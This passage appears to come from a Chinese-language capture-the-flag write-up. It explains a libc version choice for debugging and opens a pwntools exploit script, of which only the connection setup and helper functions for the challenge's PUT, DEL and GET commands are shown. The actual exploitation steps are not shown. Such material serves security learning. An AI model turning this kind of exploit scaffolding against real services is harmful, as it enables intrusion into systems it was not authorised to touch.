 ### exploit

由於原 libc 爲 2.19 版本，加載有一些奇怪的問題，較爲麻煩，而本題沒有用到 2.19 獨有的特性，所以我採用了 2.23 的 libc 進行調試，版本爲 ubuntu10。

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)
```